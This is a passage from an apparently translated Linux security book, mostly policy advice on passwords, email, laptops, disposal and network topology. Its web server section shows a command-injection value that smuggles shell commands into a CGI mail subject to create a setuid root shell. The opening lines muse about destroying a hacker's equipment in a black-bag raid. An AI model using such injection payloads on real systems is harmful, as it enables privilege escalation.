### 15.4.5 黑色袋行动

有传言称，某些实体会直接派人到黑客的家中，移除或摧毁他的设备。有些人可能会留下一张纸条说明为什么这样做，也许写着，“看看被侵犯是什么感觉？”我想到，他深爱的特斯拉线圈可以被用来电击任何电子电路的芯片，而不留下任何可与严重静电放电区分开来的外部证据。

自然，就像最初的水门事件管道工行动导致美国总统尼克松辞职一样，这种行动会有相当严重的风险。

# 制定安全策略

拥有一个设计良好的**书面**安全策略至关重要，确保它得到拥有足够权限的人批准，使其不会被忽视，并严格且公平地执行。绝大多数用户不具备技术专业知识、时间或兴趣来理解如何维护安全，但他们可以被诱导遵守政策，尤其是当不遵守政策会有不愉快的后果时。实际策略需要根据你的特定组织进行定制。当然，打印支票或运行工厂的计算机需要比某些人的实验室系统（除非后者包含公司正在开发的下个重大产品）更高的安全性。

策略应包含允许验证合规性的条款。此外，它还应包含迅速纠正不合规行为的条款。纠正措施的应用程度将取决于因组织而异的复杂政治关系。在 *员工手册* 中提及必须遵守计算机安全政策对于在大多数司法管辖区（如解雇）对员工采取法律行动至关重要。

创建或更改安全策略时，应将其提供给所有受影响的现有用户以及所有新用户。它应醒目地显示“由 Dudley S. Portistan，*MIS 总监* 批准”或类似内容，以便人们担心违反它可能会成为限制职业发展的举动。SysAdmin 检测和纠正不合规行为的权限程度应取决于不合规行为的严重性。严重危及公司业务或组织使命的问题应迅速纠正。

例如，提供未授权且不安全的防火墙旁路互联网桥接的计算机应立即断开连接，可能被扣押以等待解决并扫描入侵，并对用户进行严厉斥责或更严重的处理。被不当使用或包含未批准或不可接受的图像软件的账户应立即由 SysAdmin 禁用，然后在系统安全后，可以跟进用户或其管理层。如果政策禁止个人电子邮件，违反后温和的口头警告可能合适。

本附录涵盖的主题包括：

- 第 526 页的“通用政策”

- 第 527 页的“个人使用政策”

- 第 528 页的“账户政策”

- 第 530 页的“电子邮件政策”

- 第 531 页的“即时通讯 (IM) 政策”

- 第 532 页的“Web 服务器政策”

- 第 533 页的“文件服务器和数据库政策”


- 第 533 页的“防火墙政策”
- 第 534 页的“桌面政策”
- 第 535 页的“笔记本电脑政策”
- 第 538 页的“处置政策”
- 第 539 页的“网络拓扑政策”
- 第 542 页的“问题报告政策”
- 第 542 页的“所有权政策”
- 第 543 页的“政策政策”

### A.1 通用政策


用户必须选择一个不易猜测且肯定不是默认密码的密码。我建议给每个新用户分配一个不同的初始密码，可以是简单的短语，并要求他们立即更改。我发现从时事中挑选短语可以让人微笑，而在几周后当它不再成为时事时也无法被猜测。然后，我会在一小时后通过尝试使用所述初始密码以该用户身份登录，以确保用户已更改密码。这防止了其他心怀不满（或被解雇的员工）尝试在每个新账户上尝试相同的初始密码。我建议在仔细阅读 `Passwd(1)` man 手册页，因为它提供了许多关于密码选择的良好建议，并将其纳入你的政策。需要包含的一些项目如下。

1. 由 `SysAdmin` 提供的任何初始密码应在收到后一小时内更改。（`SysAdmin` 应验证这一点。）
2. 密码不应包含他人如果认识此人就能猜测的信息，如她孩子的名字、汽车、爱好、丈夫或狗。
3. 密码应至少包含一个非字母数字字符（最好两个），如 `!@#$%^&* ()+=[](){};’<>,~?/.` 中的任何一个。
4. 密码不应是单个单词或单词对。
5. 密码不应仅由小写字母或仅由大写字母或仅由数字组成。
6. 不应将密码写下来。
7. 除系统管理员（`SysAdmin`）外，不应向任何人透露密码（即使是主管也不行）。这应被视为非常严重的违规行为，类似于将建筑钥匙交给未经授权的人员。

第 36 页的“避免使用弱密码和默认密码”对密码进行了更详细的介绍，这是必读内容。

## A.2 个人使用政策

> **危险等级 ☠️ ☠️ ☠️**

在许多公司，电子邮件和 Web 访问的可用性被视为一种福利。如果是这样，应当予以说明。如果这是被禁止的，也应当予以说明。同样，员工可以使用公司电脑做什么应当明确说明。大多数公司不允许员工将系统用于“副业”，但可能不介意将其用于个人财务。

有些公司禁止获取和存储色情内容。在制定相关政策时，请务必考虑大多数两性人群会定期查看下载的裸露人物图像，因此被解雇的人可能会提出歧视索赔，或者要求开展一场“猎巫行动”。一个人的艺术对另一个人可能意味着其他东西。也要考虑到，大量的图像将消耗大量磁盘空间带宽，并且在某些州，如果有人看到其不喜欢的图像或文本，可能会引发诉讼。

感到困惑吗？也许制定一项政策，规定“个人数据不得消耗过多的磁盘空间和带宽（系统管理员将监控此使用情况），并且应采取预防措施，避免可能冒犯他人的图像被那些可能感到被冒犯的人看到”，这样可以解决这一问题。

使用以下命令：

```bash
du /home
```

以及

```bash
find / ! -fstype proc '(' -iname '*.gif' \
      -o -iname '*.jpg' \
      -o -iname '*.jpeg' \
      -o -iname '*.mpg' \
      -o -iname '*.mpeg' ')' -ls \
| Mail -s 'Naughty bits' pornpolice@pentacorp.com
```

以及计算开销较大的命令：

```bash
find / ! -fstype proc -type f \
! -iname '*.gif' \
! -iname '*.jpg' \
! -iname '*.jpeg' \
! -iname '*.mpg' \
! -iname '*.mpeg' \
-print | xargs -n 50 file \
| grep -E ':\.\*image|:\.\*MPEG' \
| Mail -s 'Hidden naughty bits' \
pornpolice@pentacorp.com
```

将在法律和组织政策允许的情况下，帮助检测过度使用。在执行上述任何一个 `find` 命令之前，请仔细考虑后果。可能是最佳政策是规定资源使用限制，并建议那些超出限制的人悄悄纠正这种情况。当然，可以使用磁盘配额来强制执行用户对磁盘空间的使用。

禁止个人使用的政策理由有很多。一个主要理由是法律责任。由于担心其他员工可能会看到并起诉公司骚扰，这促使了许多反对色情的政策。在 20 世纪 90 年代末，我见证了一起案例，有人打印了一幅穿着暴露、手持鞭子的女 S&M 画，但忘记取走了。虽然许多员工合理地可能对这一点感到冒犯，但该公司的其中一位所有者发现了这张打印件。他向所有人发送了电子邮件，声明任何人如果以后再次被抓到做这种事将被解雇。一个月后，在同一个客户那里，我发现了一份打印的公司所有人的工资单，这是人力资源部门某人在忘记取走它后留下的。哪个是更严重的过错？

## A.3 账户政策

**危险等级** ☠️ ☠️ ☠️ ☠️ ☠️

显而易见的事情应当被陈述并遵循，即以下内容：

- 用户不应将密码告诉任何人，系统管理员（可能）除外，即使是管理层也不行。如果有人向用户索取其密码，用户必须立即通知系统管理员。
- 公司系统不得用于副业。（如果对公司没有影响，且是在员工自己的时间内进行的，一些公司可能允许这种情况。）
- 电脑可以用于一些个人事务，如财务、一些浏览和偶尔的信件，但过度使用将成为因“偷懒”而被解雇的理由。
- 当主管解雇一名员工（或可能终止顾问的合同）时，必须及时通知系统管理员，以便关闭该员工的账户并断开任何“个人”系统与网络的连接。通常，收到消息时员工正被叫去开会。政策应要求系统管理员在该时间停用账户。当员工辞职时，也应遵循类似的政策，因为时间并不紧迫，因为员工本来就会做出他们可能打算做的任何损害。作为一种礼貌，许多公司会将离职员工的电子邮件地址转发到该人员选择的新地址。

如果没有客户和其他人能够联系到离职员工并被引导至其新公司，从而导致贵公司的业务流失的危险，那么这样做并无不妥。如果该人员的电子邮件被转发到新地址，请务必将电子邮件地址从任何保密的公司邮件列表中移除。（如果未转发，请将邮箱设置为不可写或采取其他措施防止其接收电子邮件，以便邮箱不会因邮件列表的电子邮件而填满，并且由此产生的退信电子邮件将导致大多数邮件列表将该地址从列表中移除。）作为礼貌，允许现在的离职员工将个人数据从计算机中复制出来是可以的，但这当然不是义务。如果允许，该人员的经理或系统管理员应确保机密的公司数据，如客户名单、员工姓名和工程数据，也未被复制。

当员工或顾问离职，或商业关系终止时，许多领域的数据需要更新。其中一些地方列举如下。

1. 系统登录（密码）
2. 网络登录（拨入、PPP 等）
3. 其他系统，包括大型机和实验机器
4. 电子邮件转发、邮件列表、现有电子邮件
5. 目录
6. 语音信箱
7. VPN 访问
8. 防火墙规则
9. 访问徽章和停车访问

## A.4 电子邮件政策


高度机密的数据不应通过电子邮件未加密发送，因为窃贼看到它的方式太多了，包括使用 `root` 权限直接读取邮箱或嗅探网络。书面政策应提供指导方针，确定什么是适合电子邮件传输的内容，什么不是。如果披露可能对公司造成重大伤害的数据，如即将发布的财务计划或营销或工程方向，特别应包含在内。任何医疗信息、某些类型的人事细节、信用卡数据或类似内容，除非适当加密，否则应明确禁止通过电子邮件传输。

`root` 账户、数据库账户和 Web 服务器等特权账户的密码尤其不应通过电子邮件发送。应通过安全手段发送，如 `PGP`、通过电话或挂号信。参见第 551 页的“伯克利系统窃贼的忏悔”，了解不遵守此规则的生动后果说明！

您的政策应说明是否允许个人电子邮件。应考虑以下部分政策。更严厉的政策应包含明确的解雇处罚。明确的政策对于防止某人第一次“逃脱惩罚”，因为“我不知道”非常重要。

1. **从电子邮件附件中获得的程序（特别是二进制文件）不应被使用**，除非绝对确定发送者可以信任，并且他或她已验证程序的来源。建议在防火墙或邮件服务器上过滤这些内容。

   换句话说，在使用程序之前，您不仅必须信任发送者的诚实，还必须信任发送者确定其获得的程序是否可靠的能力。这里有病毒扫描程序可以利用。
2. **禁止传输骚扰、威胁或涉及非法活动（如赌博¹、欺诈或非法分发数据或软件）的电子邮件。** 这包括发送违反或允许违反软件许可的程序副本。使违反此政策的人面临解雇处罚的原因是，这种活动很容易导致公司被起诉。

   制定严厉的政策（并公平地执行它）可以保护公司，既通过减少此类活动的数量，也通过能够向律师、法官和陪审团展示公司已尽一切所能防止该问题。在这种情况下，这一点非常重要。如果政策未被公平执行，当某个人受到比其他更严厉的执行时提起诉讼，这将导致严重问题。
3. **禁止传输包含病毒、蠕虫或恶作剧的电子邮件。**
4. **禁止传输被视为垃圾邮件的电子邮件。** 您可能想要具体说明，例如，

---

1. 许多公司对体育彩池等作出例外规定。


与公司业务、娱乐或员工士气无关，且故意发送给公司内部 10 人以上或公司外部 20 以上人员（未经授权）的非自愿电子邮件应被视为垃圾邮件并禁止发送。

此限制不适用于偶尔合理的户外聚会、烧烤、收留小猫之家等邀请。如有疑问，请联系您友好的系统管理员或经理。

- 5. 禁止发送或转发连锁信件。
- 6. 禁止发送与公司业务无关的大量电子邮件。（如有疑问，请咨询系统管理员。）
- 7. 包含公司机密信息的电子邮件除非获得特别授权，否则不得发送出公司（或通过非安全线路传输）。在回复带有收件人列表的电子邮件时应格外小心，其中部分收件人并非公司员工。
- 8. 需明确公司是否保留阅读员工电子邮件的权利。在大多数司法管辖区，公司这样做是合法的。在某些情况下，只有当公司声明可能会这样做时才合法。当然，大多数人认为，系统管理员在没有管理层针对与公司业务相关的特定目的授权的情况下阅读某人的电子邮件是不道德的。

## A.5 即时通讯 (IM) 政策


在过去几年里，即时通讯工具（IM）变得非常流行。Yahoo、AOL、ICQ 和 Microsoft 都提供此类服务。虽然它们当然互不兼容，但 Linux 可以通过 Gaim 及类似程序与所有这些工具交互。Gaim 的主页是

```
gaim.sourceforge.net/index.php
```

问题在于，这类程序允许基本上任何数据进入或离开您的网络，包括机密数据、二进制数据和病毒。许多能够处理邮件附件甚至网页攻击的病毒过滤器无法过滤掉来自 IM 的恶意数据包。虽然 IM 可能很有趣，但它并没有比电子邮件和电话访问的组合提供任何技术优势。此外，频繁的中断会降低生产力。已报告多个即时通讯服务存在安全漏洞。由于 IM 带来的安全风险和生产效率问题，英国政府及其他组织已禁止在其网络中使用即时通讯。

您可能至少希望阻止其进入您组织内的敏感子网。如果您允许使用，请确保仅允许从各服务的服务器 IP 地址进行连接；这至少能提供一定程度的攻击防护。但是，请记住，如果您的用户在线，世界上任何人都可以向他们开始发送消息。这一点应让您脊背发凉。使用电子邮件至少，您要么正在使用病毒过滤器，要么已禁用邮件客户端自动加载附件。

## A.6 Web 服务器政策

> 危险等级 ☠️☠️☠️☠️☠️

Web 服务器政策应同时解决安全和法律问题。所解决的安全问题应旨在保护服务器免受攻击（并在遭受攻击时制定行动计划）。

通常，设计网页内容的是文学或艺术类型的人员，但他们可能不具备您那样的安全知识。最严格的政策是要求所有安装和更改都由系统管理员执行，或者由一位在解决安全问题上极具经验的 Web 管理员（Webmistress）执行。

这可能过于严格。或许应该要求安装非活动网页和图像的人员使用 `umask` 为 `022` 的账户。这将与可能添加或修改 CGI 脚本和程序、Web 服务器（Apache）配置文件以及其他更具安全敏感性的文件的账户不同。在任何情况下，除知识渊博的 Web 管理员外，非系统管理员不得添加或更改 CGI 脚本和程序、配置文件等。

所有 CGI 程序和脚本、Apache 模块等，应仅来自可信来源，并且仍应仔细扫描甚至测试，以验证不存在安全漏洞。考虑一个简单的例子，一个从 HTML 表单调用的 CGI 程序，用于接受浏览器传来的文本评论。它可能会分叉 `Mail` 进程将数据发送到专用电子邮件地址，但很容易存在漏洞，使得即使是新手黑客也能通过在主题文本中插入分号，然后加上她想要的任何 `root` 命令，再加上另一个分号，从而获得 `root` 权限。

如果 CGI 脚本没有极其谨慎，它可能执行类似以下操作。在这个 C 语言示例中，程序根据浏览器提供的主题构建 shell 命令，目的是生成电子邮件发送给 Web 管理员。

```
char           *subject;
char           buf[200];
FILE           *fp;

sprintf(buf, "Mail -s '%s' webmistress@turkey.com", subject);
fp = fopen(buf, "w");
```

严重的安全漏洞在于未检查用户输入的有效性。如果用户提供如下主题

```
x@y.com;cp /bin/sh /tmp/.sh;chmod 4755 /tmp/.sh;Mail -s 'cool
```

`sprintf()` 将生成以下 shell 命令（忽略反斜杠及其后的换行符）：

```
Mail -s ' x@y.com;cp /bin/sh /tmp/.sh;chmod 4755 /tmp/.sh;\
Mail -s 'cool' webmistress@turkey.com
```

在这种情况下，黑客仅仅为自己制作了一个 set-UID shell。如果此命令被 `root` 执行，他可以为自己添加密码条目或操纵其他配置文件。

即使有效用户不是 `root`，他也可以通过插入适当的命令来操纵该程序运行用户可写入的任何文件。

根据您的机构或公司的公关和合同政策，部分或全部拟议的 Web 内容应要求由法律专家或公关人员批准。

## A.7 文件服务器和数据库政策

这些系统至关重要，需要采取措施加以保护。例如，对它们的特权访问（如 `root` 权限）应限制在维护它们的少数人范围内。具有安全历史问题的服务，如 `sendmail`、`DNS` 和 CGI，不应被允许。

如果这些系统仅用于内部使用，应通过防火墙阻止外部系统的访问。如果数据极其机密，公司内大多数人都不应查看，例如人力资源数据、财务信息（公司自身或其客户的）或医疗信息，其未加密数据仅应允许在独立的网络上传输。这是为了防止好奇者进行嗅探。

## A.8 防火墙政策

应有一项书面政策，说明允许从 Internet 进入哪些服务以及允许哪些系统使用这些服务。一个好的起点是仅允许 `SSH` 和可能的 `SMTP` 进入。即使这些服务也仅应允许给那些用户已明确请求且经过验证该系统看起来相对安全且保持更新的系统。

## A.9 桌面政策


此处所谓的“桌面”是指用户直接使用的任何桌面系统，例如 Windows 和 Mac。少数可能拥有 Linux 或 UNIX。假设它们连接到局域网 (`LAN`)，且用户不是专家级系统管理员，对安全知之甚少。

用户关于安全的“知识”大多来自行业杂志的耸人听闻的文章和供应商的安抚。他们肯定没有时间或兴趣去保护自己的系统。因此，最重要的政策是将任何未受保护的桌面系统视为其本来的样子，即未受保护。目前有一些良好的病毒检测软件可以帮助解决这个问题。

我认为可以说，某些桌面系统会被病毒或木马感染，并且公司网络及重要软件的设计应考虑这一点。病毒或木马如此精密且具有针对性（在控制 PC 后捕获例如公司客户端/服务器订单录入系统的密码并生成虚假订单）的情况是不寻常的。

不过，对于高安全性（重要）应用程序，这些系统不应有 Internet 访问权限，也不应有用户可能无意中加载伪装的流氓软件（例如伪装成屏幕保护程序）的软驱或 CD-ROM 驱动器。当然，不应允许任何导致执行来自 Internet 的未经请求的任意代码的软件。

Microsoft Office 套件违反了这一规则，造成了灾难性的后果。根据伦敦劳合社 (`Lloyd's of London`) 的说法，套件中这个著名的安全漏洞允许 ILOVEYOU 蠕虫在 2000 年 5 月的短短几天内在全球造成约 150 亿美元的损失。（有些人对这个估计提出质疑。）如果公司没有从一年前的 Melissa 蠕虫中吸取哪怕一点教训，损失本会更大。所谓“吸取了一点教训”，是指许多公司建立了复杂的防火墙来防范已知威胁，并制定了针对类似问题的快速响应计划。大多数人没有吸取足够的教训来禁止执行任意未请求的代码。

> Linux 具有检测和阻止这些已知特定攻击的能力。`Snort` 开源包可以检测到此攻击；我们在第 571 页的“使用 Sendmail 拦截电子邮件攻击”中讨论了拦截 ILOVEYOU 蠕虫的方法。

需要注意的是，尽管绝大多数 Linux 系统并不受此问题的困扰，但这并非由于 Linux 系统具有固有的不可战胜性，而是源于常见的配置方式。完全可以配置 Linux 系统，使其执行来自互联网或公司局域网的任意未经请求的代码。检查这种可能性至关重要。这种功能可以在两个主要位置进行配置：

- `/etc/mailcap`。
- Netscape。

## A.10 笔记本电脑策略


笔记本电脑拥有与台式机相同的所有问题，此外还具备易于被带出机构物理安全范围的能力。大多数人不会想到他们的笔记本电脑被盗且数据落入错误人员手中的可能性。我的一位客户，其武术训练背景和体型足以赢得大多数酒吧斗殴，在美国一家颇有名望的酒店里持枪被抢走了笔记本电脑。不幸的是，他精心制作的 CD-ROM 备份正“安全地”存储在被盗笔记本电脑的 CD-ROM 光驱中。我另一位客户的 Linux 笔记本电脑（由我为其安装）在肯尼亚被盗，当时几名男子深夜闯入他的酒店房间，并用枪指着他和他的妻子。


假设美国司法部负责微软反垄断案的律师们，将他们针对该案的策略和论点存放在他们随身携带的笔记本电脑中，而这些笔记本电脑正穿过华盛顿特区犯罪率极高的街道。这些数据可能表明，如果无法达成妥协，政府愿意做出多大程度的让步，以及他们会请求作出何种裁决。那么，这些数据对微软的律师来说，字面意义上就值十亿美元。政府方面的律师是否足够谨慎以对其数据进行加密？我并不是暗示微软会这样做；这只是一个更具趣味性的高风险法律案件之一。

是否有人因其笔记本电脑上的数据而成为目标？最近已有此类说法。即使你没有被这样针对，一些窃贼可能会尝试启动电脑并查看他们拥有的是什么。在 2000 年初，作者已知悉四起备受瞩目的笔记本电脑被盗事件，其中含有敏感信息。其中一起发生在希思罗机场，涉及一名英国陆军高级军官。另一起涉及一名在伦敦地铁中放下一购买车票的 MI5（英国秘密情报局）特工，他的笔记本电脑里包含北爱尔兰和平计划的相关细节。这里的一个教训是，将笔记本电脑放在带有颈带的携带袋中，以免你放下它而忘记，或者未能注意到他人正在拿走它。第三起涉及一名“醉酒”的 M16 军官。[^3]

也不缺席聚光灯下的第四起事件：一个包含“密码”信息——比绝密更机密——的笔记本电脑，从美国国务院情报和研究局消失了。[^4] 它包含成千上万份高度机密的文件，涉及武器扩散、先进武器，以及美国情报收集的方法和来源。接近调查的一位消息人士称，这可能是美国历史上单一最严重的安全泄露事件！这个通常安全的房间的门为了便利而经常被支开。

> 本章中引用的媒体报道中的错误，由一位从 CIA 退休的朋友进行了更正。

该笔记本电脑至今尚未被寻回。在其他国务院笔记本电脑失踪的消息曝光后，该部门实施了定期随机检查笔记本电脑的政策，以验证它们是否不含高度机密信息。此政策也适用于其他一些组织。[^5]

> 许多人自信地认为可以保护其数据的登录密码或“`BIOS` 密码”其实毫无价值。大多数笔记本电脑磁盘都可以被取出，插入常见的适配器，并将适配器插入塔式系统作为第二块磁盘。然后，可以在观看“X 档案”中外星人绑架事件所花时间的不到一半时间内，复制数 GB 的未加密数据。

本书是在我购买的二手 `Toshiba T4700CT` 笔记本电脑上，运行 `Slackware Linux` 系统编写的。在任何有成果的创作会话之后，`Troff` 源文件都会备份到软盘上，以防磁盘崩溃、系统被盗或跌落。每日备份通过以太网传输到塔式系统，每隔几天通过互联网备份到 1200 英里外朋友处的系统。因此，如果我家被入室盗窃，我损失的只是一天的工作量。每月，备份磁带会被送到银行保险箱。尽管数据本应使用 `PGP` 进行加密，但实际上并未加密。这些数据并不是非常机密，且很少出现在因内容而容易被窃取的区域。

在关于笔记本电脑中高度机密数据被窃的故事中，并未提及数据经过加密以防止被“错误人员”访问。国务院笔记本电脑的数据未加密。不加密这可能被视为不负责任。所有机密数据都应使用 `PGP` 或等效工具以加密形式存储。

> 应有一项政策规定，所有未使用的笔记本电脑上的机密数据都应使用存储在系统外或个人物品外的密码进行加密。`Pretty Good Privacy` (`PGP`) 对于此用途非常有效。

另一种解决方案是使用 `Linux` 磁盘驱动程序，在写入磁盘前加密所有数据。

2000 年夏，美国政府决定对笔记本电脑上的机密数据进行加密是个好主意。相反于这些免费技术，它聘请了一家加拿大公司来提供解决方案。

美国案件中的另一个错误是缺乏物理安全，实际上是“安全环”。（这个概念在第 20 页的“迁移到安全环”中进行了探讨。）安全房间的门不应被支开，门上应安装警报器，如果门开超过一分钟就会通知安保人员。在高机密数据被检查的地方，应有更多的检查点。应有摄像头，其图像应被录制并保存。“正门”的安保人员应阻止任何人携带笔记本电脑离开，除非证明其中没有机密数据或已妥善安全处理。笔记本电脑外部应配备表明其安全级别和所有者的可见图案。

据推测，是一名没有许可权限的人窃取了国务院的笔记本电脑。如果是这样，为什么他没有被注意到？当休斯飞机公司工作时，每个人都必须佩戴名牌，名牌还显示了个人的安全许可级别。尽管我工作的建筑是一个安全区域，我旁边的实验室只能通过拇指指纹进入，并且有一套双门以防止门被支开。此外，应有一项要求，将笔记本电脑中所有重要数据复制或移动到独立于笔记本电脑的存储位置。

什么是好的独立位置？许多酒店都有小保险箱或保险箱。由于你可能随身携带笔记本电脑，将备份磁盘（包含加密的机密数据）放在托运行李中，或与同行的托运行李中，或两者都放。`LS-120`、`Zip` 或 `CD-RW` 磁盘非常适合此用途，只要它们与笔记本电脑分开即可。我的客户，那位武术学生，以艰难的方式学到了这一点，他的 `CD-RW` 磁盘仍留在笔记本电脑里被偷走了。

实施频繁的病毒扫描（针对基于 `Windows` 的系统 和 `Mac` 系统）以及安装病毒扫描器以在感染易受病毒影响的台式机之前扫描软盘或电子邮件的政策，将是一个绝佳的主意。

## A.11 处置策略


最终，一台计算机被停止服务并被送往“计算机天堂”。有时这意味着将其送给忠诚的员工家用，或送给慈善机构以享受税务抵扣。有时它被卖给废品回收公司或回收商。频繁地，旧计算机被扔进垃圾箱。但数据呢？在处理大型组织设备的流程中，通常没有人的工作是专门担心可能残留在磁盘上的机密数据。在较小的组织中，这个问题有时以不那么正式的方式被遗忘。

> 当美国检察官办公室使用的一台计算机在政府公开拍卖会上售出后，有人发现有人忘记擦除其上的数据。它包含卧底特工、线人和受联邦保护的证人的姓名和细节。该磁盘从未被找到。如果落入错误人员手中，无辜者可能会因此被谋杀。

[^3]: 由 John Kay 报道，并于 2000 年 4 月 5 日刊登在 *isn@securityfocus.com* 上。2000 年 5 月 20 日在 isn@securityfocus.com 上报道，源自 *The Times of London*，2000 年 5 月 21 日。（这些日期是正确的；差异是由于时区不同造成的。）

[^4]: 于 2000 年 4 月 17 日在 *Atlanta Journal* 上报道。

[^5]: 在 InfoSec News (`isn@securityfocus.com`) 上于 2000 年 4 月 23 日和 5 月 22 日报道。

有时你不再记得登录系统所需的密码。有时系统无法启动，因此被认为可以“安全”地处理丢弃，但启动问题可能并非由磁盘损坏引起。在这种情况下，“坏人”甚至“灰帽”可能会移除磁盘，将其连接到另一台系统，并有可能读取数据。

所有磁盘在处置前都应被擦除或销毁。如果系统的新所有者愿意，她可以自行安装 `Linux`。大多数竞争性的闭源软件是通过不可转让的许可证销售的，因此无论如何都不能合法地将其保留在磁盘上。这意味着你在法律上有义务从磁盘中擦除闭源软件。

## A.12 网络拓扑策略


*拓扑*指的是网络配置，即你网络的不同部分是如何连接（塑造）的。网络拓扑或形状差异巨大，并且对网络的安全性和性能都有巨大影响，应仔细考虑。大多数网络从小规模开始，杂乱无章地增长。当然，有计划的扩展是首选。当这种情况不可行时，请考虑定期（例如每年）分析和重新组织拓扑。

- 拓扑策略应禁止系统管理员（或可能是网络管理员）以外的任何人更改网络。特别是禁止桌面用户在其联网系统上安装调制解调器并连接到互联网（或任何未受保护或不可信的系统）。

笔记本电脑是一个特殊问题，因为大多数用户需要在外出时拨号接收电子邮件，并希望回到办公室时接入公司的以太网。如果他们只从公司系统获取电子邮件，禁止他们拨号进入非公司系统可能是一个很好的解决方案。

避免使用 ISP（互联网服务提供商）的原因是，由于 ISP 不知道你希望获得什么服务或从谁那里获得，你完全暴露在攻击之下。对于仍需要连接 ISP（例如为了从家庭账户接收电子邮件）的笔记本电脑用户，解决方案是将其安全配置为防火墙外部的公司系统，因为实际上它就是如此。所有传入服务都应被阻止，特别是 `telnetd`、`FTP` 和 `SMTP`（`sendmail` 或其等效物），以及处理传入数据包的任何程序（如 `FTP`、`telnet` 和 `POP` 客户端）都应该是具有良好安全历史记录的最新版本程序。

关注那些可以访问互联网（而没有你精心设置的防火墙保护）的系统的原因是，任何像样的黑客都可以轻松地从拨号连接入侵几乎任何 `Windows` 或 `NT` 机器。然后，他将进入你的企业网络，绕过你精心设置的防火墙。运行 `Linux` 的笔记本电脑同样容易受到攻击，除非它像公司 Web 服务器或邮件服务器一样经过彻底的安全加固。这在第 68 页的“阻止绕过防火墙”中有讨论。

策略还应禁止其他未经授权（且非计划内）的网络拓扑变更，特别是连接互联网或重新组织子网，这些行为可能会将独立部门连接起来或绕过公司内部防火墙。

- 据告知，美国南部一家大型银行的一个办公室经理对公司的互联网连接速度感到不满，因此他在没有考虑安全性的情况下，为他的分支机构订购了专用的 `T1` 互联网连接，从而危及整个银行的数据和资金。


同一家银行定期使用自动设备拨打公司内的每一个电话号码，以检测违反公司政策而连接调制解调器的号码。每次运行此检查时，他们都会发现大量意外的调制解调器，然后会派人去清除它们。

### A.12.1 内部网络拓扑策略

许多组织，无论大小，甚至包括拥有家庭网络的组织，都需要考虑其内部网络拓扑。当然，不安全的系统需要通过防火墙与互联网隔离，但不幸的是，这通常是大多数公司安全措施的极限。询问“如果……怎么办？”很重要。如果某个经理将他的 `Windows` 笔记本电脑插入网络，并通过 `PPP` 拨号连接回家 ISP 获取电子邮件，在这种配置下，黑客通过 `PPP` 连接进入并控制了他的 `Windows` 笔记本电脑，该怎么办？

这种可能性对于 `Linux` 笔记本电脑也存在。如果某位工程师想从家连接她的系统，但不想麻烦使用 `SSH`，并坚持要求防火墙允许 `telnet` 进入她的工作系统，该怎么办？如果黑客入侵了那个系统，该怎么办？如果你的某位员工感觉受到老板的虐待（无论合法与否）并想伤害公司，该怎么办？如果有人从网络加载了带有特洛伊木马的软件，该怎么办？如果你的 Web 服务器被入侵，该怎么办？

如果发生这些情况，你的网络拓扑是否会允许流氓访问你所有系统？大多数公司假设唯一的入侵点是来自互联网，并且仔细配置的防火墙将解决所有问题。不幸的是，这是一个灾难性的计划。

绘制你的网络图，列出你的系统（或每个类别的一两个系统），并应用这些“如果……怎么办”场景。黑客能轻松访问多少系统？关键系统上的密码强度如何？考虑到大约一半的安全事件起源于内部系统，而在另一半中，一旦黑客进入你的某个系统，他通常会尝试尽可能多地入侵其他系统并造成尽可能大的破坏。将低安全系统（如 `Windows` 和其他未受保护的机器以及类似的客户端系统）放在与高安全系统由防火墙隔开的不同网络（或子网）上。将不同部门放在由防火墙隔开的不同网络上。

具有高机密信息的低安全系统应位于无法从其他网络和互联网访问的独立网络（可能是几个不同的网络）上。这可能包括控制薪资和应付款项的会计系统，这些系统绝对应该位于与公司其他所有设备隔离的网络上，并且真的、真的不应该有任何互联网访问。这些系统应配置为禁止非系统管理员安装软件，以防止病毒和特洛伊木马，甚至通用网络软件（如 `Netscape`）被加载。除非工作需要，这些系统不应有软盘或 CD-ROM 驱动器，并且应移除任何用于导入软件的通用软件，以确保“你无法从那里到达这里”。

如果他们必须使用软盘或 CD-ROM 驱动器来导入数据，或者通过网络导入数据的某种方式，请获取或创建一个专用程序或脚本，以受控方式执行此操作。请为这些人提供一台装有 `Netscape` 和电子邮件的独立机器，这样他们就不会那么倾向于破坏你设置的极其重要的安全壁垒。

你的工程系统应与公司其余部分位于不同的网络上，因为工程师经常进行实验，而实验系统未经过安全加固。你很可能希望“实验室”系统（经常变化，因此安全性最低）与更稳定的工程系统隔离。大多数公司都有一个独立的“实验室网络”用于此目的。应阻止来自工程部门外部的通过这些不安全方法（如 `FTP`、`telnet` 和其他不安全方法）访问这些系统。建议帮助工程师设置 `SSH` 作为替代。

销售和市场人员与其他部门相比，与外部系统的交互更频繁，这些人通常技术熟练程度较低。这是将他们隔离在独立网络上的一个很好的理由。阻止进入你组织不同网络的传入 `FTP` 和 `telnet` 是个好主意。一种常见的解决方案是拥有一个用于“文件反弹”的系统。因此，要从系统 $A$ 复制文件到系统 $B$，系统 $A$ 上的人会将该文件 `FTP` 到反弹系统的公共区域。

然后，系统 $B$ 上的人会启动到反弹系统的 `FTP` 连接并下载该文件。来自公司外部的对反弹系统的 `FTP` 访问将被阻止，并且每天的 `find` 命令将删除公共 `FTP` 区域中超过一天（例如）的所有文件。这种“反弹”系统和相应的防火墙规则可以防止某个系统（可能是已被入侵的系统）破坏其他系统，因为“你无法从这里到达那里”。有关详细信息，请参阅第 78 页的“用于遏制火灾的内部公司防火墙”。

## A.13 问题报告策略

策略应要求员工将任何重大问题或违规行为的知情情况上报给管理层或系统管理员。重大违规可能包括建立未经授权的互联网连接、在公司电脑上经营副业、通过电子邮件将公司机密发送到公司外部，或通过电子邮件威胁前伴侣（或任何人），但不包括传播下流笑话。在此保持理智非常重要。

## A.14 所有权策略


策略最好应规定以下内容。这将保护公司免受其硬件和软件被盗，并明确一个概念：作为薪资的回报，员工放弃了他所使用设备或所创建软件和数据的所有权利。

> *所有设备、软件，以及员工在公司设备或公司时间所创建的一切均为公司（或机构）财产。未经书面授权，任何设备不得移出公司场所。未经授权，任何软件或数据不得向公司以外任何人披露；即使经过授权，也仅限于为了公司的利益。*

我曾看到员工甚至顾问将他们为某个客户开发的软件（*受雇作品*）进行复制并卖给另一个客户，他们甚至没有意识到自己已经构成了盗窃和违约。在策略中明确这一点可以降低此类事件发生的可能性，并在需要时无疑为后续的法律诉讼提供依据。

下一部分有助于保护公司免受因员工在其系统上安装盗版软件而引发的诉讼。此外，它还能阻止不安全且未经评估的软件被放置在脆弱的公司系统上。

> *未经授权的、许可不当的或非法的软件或数据不得放置在或允许存在于公司设备或公司财产上。*

## A.15 策略策略

危险等级 ☠ ☠ ☠ ☠

